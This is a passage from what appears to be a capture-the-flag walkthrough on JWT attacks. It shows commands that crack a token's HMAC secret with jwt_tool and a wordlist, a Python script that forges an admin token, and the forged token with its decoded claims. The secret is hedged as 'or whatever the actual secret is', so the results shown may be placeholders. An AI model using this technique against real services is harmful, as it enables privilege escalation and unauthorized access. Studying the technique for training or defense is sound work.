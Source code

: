 ```bash
# Clone jwt_tool
git clone https://github.com/ticarpi/jwt_tool
cd jwt_tool

# Crack the secret
python3 jwt_tool.py [TOKEN] -C -d wordlist.txt
```

### Step 4: Secret Discovery

After running our cracking script, we discover the secret key:

**SECRET: `secret`** (or whatever the actual secret is)

### Step 5: Token Forgery

Now that we have the secret, we can forge a new JWT token with admin privileges:

```python
#!/usr/bin/env python3
import jwt

# The cracked secret
secret = "secret"

# Create admin payload
admin_payload = {
    "user": "admin",
    "role": "admin"  # Changed from "user" to "admin"
}

# Forge the token
admin_token = jwt.encode(admin_payload, secret, algorithm="HS256")

print("🎯 FORGED ADMIN TOKEN:")
print(admin_token)
```

**Generated Admin Token:**
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJyb2xlIjoiYWRtaW4ifQ.4C3y-d8fC-U5a77Q5lWsWAB8OzqXHRIpK6rQD1ULDSA
```

**Verification of Forged Token:**
```json
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "user": "admin",
  "role": "admin"  ← Successfully changed!
}
```
